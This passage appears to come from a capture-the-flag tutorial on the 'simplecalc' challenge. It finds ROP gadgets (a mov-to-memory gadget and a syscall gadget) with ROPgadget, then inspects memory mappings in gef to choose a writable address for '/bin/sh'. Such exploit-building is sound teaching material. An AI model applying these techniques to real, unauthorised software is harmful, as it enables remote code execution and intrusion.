 after a bit of searching, we find this gadget:

```
0x000000000044526e : mov qword ptr [rax], rdx ; ret
```

This gadget will move the four byte value from `rdx` to whatever memory is pointed to by `rax`. This is exactly what we need, and a bit convenient since we already have the gadgets for those two registers and this gadget doesn't do anything else that we need to worry about. The last gadget we need will be a `syscall` gadget:

```
$   python3 ROPgadget.py --binary simplecalc | grep ": syscall"
0x0000000000400488 : syscall
```

There are two more things we need to figure out. The first is where in memory we will write the string `/bin/sh`. Let's check the memory mappings while the binary is running:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004c1000 0x0000000000000000 r-x /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c0000 0x00000000006c3000 0x00000000000c0000 rw- /Hackery/pod/modules/bof_static/bkp16_simplecalc/simplecalc
0x00000000006c3000 0x00000000006c6000 0x0000000000000000 rw-
0x0000000001971000 0x0000000001994000 0x0000000000000000 rw- [heap]
0x00007fffbde39000 0x00007fffbde5a000 0x0000000000000000 rw- [stack]
0x00007fffbdfe6000 0x00007fffbdfe9000 0x0000000000000000 r-- [vvar]
0x00007fffbdfe9000 0x00007fffbdfeb000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x/g 0x6c0000
0x6c0000: 0x200e41280e41300e
gef➤  x/20g 0x6c0000
0x6c0000: 0x200e41280e41300e  0x0e42100e42180e42
0x6c0010: 0x00000000000b4108  0x0000d0a40000002c
0x6c0020: 0x0000006cfffd1fd0  0x080e0a69100e4400
0x6c0030: 0x0b42080e0a460b4b  0x0e470b49080e0a57
0x6c0040: 0x0000000000000008  0x0000d0d400000024
0x6c0050: 0x00000144fffd2010  0x5a020283100e4500
0x6c0060: 0x0ee3020b41080e0a  0x0000000000000008
0x6c0070: 0x0000d0fc00000064  0x0000026cfffd2138
0x6c0080: 0x0e47028f100e4200  0x048d200e42038e18
0x6c0090: 0x300e41058c280e42  0x440783380e410686
gef➤  x/20g 0x6c1000
0x6c1000: 0x0000000000000000  0x0000000000000000
0x6c1010: 0x0000000000000000  0x0000000000431070
0x6c1020: 0x0000000000430a40  0x0000000000428e20
0x6c1030: 0x00000000004331b0  0x0000000000424c50
0x6c1040: 0x000000000042b940  0x0000000000423740
0x6c1050: 0x00000000004852d0  0x00000000004178d0
0x6c1060: 0x0000000000000000  0x0000000000000000
0x6c1070 <_dl_tls_static_size>: 0x0000000000001180  0x0000000000000000
0x6c1080 <_nl_current_default_domain>:  0x00000000004945f7  0x0000000000000000
0x6c1090 <locale_alias_path.10061>: 0x000000000049462a  0x00000000006c32a0
```

